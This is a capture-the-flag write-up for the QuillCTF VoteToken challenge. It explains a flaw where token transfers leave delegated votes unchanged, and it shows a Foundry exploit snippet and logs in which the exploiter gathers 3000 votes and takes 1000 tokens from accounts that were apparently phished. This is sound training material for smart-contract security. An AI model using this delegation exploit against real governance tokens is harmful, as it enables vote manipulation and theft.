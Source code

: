 # QuillCTF: VoteToken Exploit

- [Challenge](https://academy.quillaudits.com/challenges/quillctf-challenges/voting-machine)
- Contract: [VoteToken](../../src/QuillCTF/VoteToken.sol)
- Exploit: [VoteTokenExploit](../../test/QuillCTF/VoteTokenExploit.t.sol)

The objective of the CTF was to accumulate 3000 votes and to steal 1000 tokens from Alice. Thanks to a prior phishing attack, we got access to Alice, Bob and Carl accounts. Alice had 1000 tokens while the others had no tokens.

## Exploit

The flaw in this system is that when you transfer tokens between accounts, the delegated votes are not updated. Thus, if you manage to have access to an account with some tokens, you can simply delegate all the tokens to the exploiter and send the tokens to another user while keeping the delegated votes. Then you can repeat this process until you accumulated enough votes.

```java
vm.startPrank(alice);
console2.log('Alice delegates its tokens to the exploiter');
target.delegate(exploiter);

console2.log('Alice sends its tokens to Bob');
target.transfer(bob, 1000);
vm.stopPrank();

// The exploiter has now accumulated 1000 votes
// Repeat this process with other users...
```

## PoC

The following are the logs generated by executing the exploit using Foundry:

```bash
$ make exploit CONTRACT=VoteToken
Running 1 test for test/QuillCTF/VoteTokenExploit.t.sol:VoteTokenExploit
[PASS] testExploit() (gas: 277574)
Logs:

  --------------- [STATS] ----------------
  🙍‍♀️ Alice         0 votes     1000 tokens
  🙎‍♂️ Bob           0 votes        0 tokens
  🙎 Carl          0 votes        0 tokens
  🥷 Exploiter     0 votes        0 tokens
  ----------------------------------------

  Alice delegates its tokens to the exploiter
  Alice sends its tokens to Bob

  --------------- [STATS] ----------------
  🙍‍♀️ Alice         0 votes        0 tokens
  🙎‍♂️ Bob           0 votes     1000 tokens
  🙎 Carl          0 votes        0 tokens
  🥷 Exploiter  1000 votes        0 tokens
  ----------------------------------------

  Bob delegates its tokens to the exploiter
  Bob sends its tokens to Carl

  --------------- [STATS] ----------------
  🙍‍♀️ Alice         0 votes        0 tokens
  🙎‍♂️ Bob           0 votes        0 tokens
  🙎 Carl          0 votes     1000 tokens
  🥷 Exploiter  2000 votes        0 tokens
  ----------------------------------------

  Carl delegates its tokens to the exploiter
  Carl sends its tokens the exploiter

  --------------- [STATS] ----------------
  🙍‍♀️ Alice         0 votes        0 tokens
  🙎‍♂️ Bob           0 votes        0 tokens
  🙎 Carl          0 votes        0 tokens
  🥷 Exploiter  3000 votes     1000 tokens
  ----------------------------------------


Test result: ok. 1 passed; 0 failed; finished in 1.65ms
```
